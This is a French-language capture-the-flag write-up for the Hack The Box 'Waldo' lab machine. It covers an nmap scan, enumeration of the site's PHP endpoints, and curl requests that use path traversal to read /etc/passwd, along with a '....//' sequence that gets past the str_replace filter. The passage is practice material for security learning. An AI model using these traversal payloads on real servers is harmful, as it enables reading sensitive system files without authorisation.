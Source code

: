 # Waldo writeups by Seyptoo.

![forthebadge made-with-python](http://image.noelshack.com/fichiers/2019/02/2/1546971003-capture-du-2019-01-08-19-09-54.png)

Informations
----
    Ip :  10.10.10.87       Created by :  strawman & capnspacehook 
    Level : Easy            Base Points : 30
    
Nmap Scan
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-01-08 19:08 CET
    Nmap scan report for 10.10.10.87
    Host is up (0.065s latency).
    Not shown: 997 closed ports
    PORT     STATE    SERVICE        VERSION
    22/tcp   open     ssh            OpenSSH 7.5 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
    |_  256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
    80/tcp   open     http           nginx 1.12.2
    |_http-server-header: nginx/1.12.2
    | http-title: List Manager
    |_Requested resource was /list.html
    8888/tcp filtered sun-answerbook

Le port 22 pour le **SSH**, le 80 pour le serveur **HTTP**. Allons voir ça de beaucoup plus près. Nous avons également des informations sur le serveur HTTP il y'a un fichier qui se nomme /list.html donc nous allons énumérer ça.

HTTP
----
Sur la page HTTP on peut pas faire grand chose on peut seulement ajouter des listes.. mais cela n'est pas suffisant pour l'énumération.
Si nous regardons la source de la page il y'a des informations. Il y'a un fichier javascript donc je suis aller voir de plus près.

    <html>
      <head>
        <title>List Manager</title>
        <script src="/list.js"></script>
        [...SNIP...]
        
Il y'a des fonctions sur le fichier javascript. Donc nous avons trouver plusieurs fichiers PHP.

fileWrite.php (Fichier pour créer des listes) Paramètre : listnum=&data=<br />
fileDelete.php (Fichier pour supprimer des listes) Paramètre : listnum=<br />
fileRead.php (Fichier pour lire des fichiers sensibles) Paramètre : file=<br />
dirRead.php (Fichier pour lire les répértoires) Paramètre : path=<br />

On va plus s'intéréssé au fichier fileRead.php et dirRead.php ils sont beaucoup plus utiles.

    root@:~/htb/writeup/Waldo# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=fileRead.php"|jq -r .file
    <?php


    if($_SERVER['REQUEST_METHOD'] === "POST"){
            $fileContent['file'] = false;
            header('Content-Type: application/json');
            if(isset($_POST['file'])){
                    header('Content-Type: application/json');
                    $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                    if(strpos($_POST['file'], "user.txt") === false){
                            $file = fopen("/var/www/html/" . $_POST['file'], "r");
                            $fileContent['file'] = fread($file,filesize($_POST['file']));  
                            fclose();
                    }
            }
            echo json_encode($fileContent);
    }
    
Voilà on a réussis à lire le fichier fileRead.php comme pour on peut le voir il y'a du str_replace.

    root@:~/htb/writeup/Waldo# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=../../../../../../etc/passwd"|jq
    {
      "file": false
    }
    
Donc si nous essayons de lire le fichier passwd sur le dossier /etc.

    root@:~/htb/writeup/Waldo# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=../../../../../../etc/passwd"|jq
    {
      "file": false
    }
    
Donc impossible de lire ça, nous devons bypass ça. Il y'a du str_array() donc pour bypass ça vous devez simplement faire ....//....//....//....//....//....//directory/file


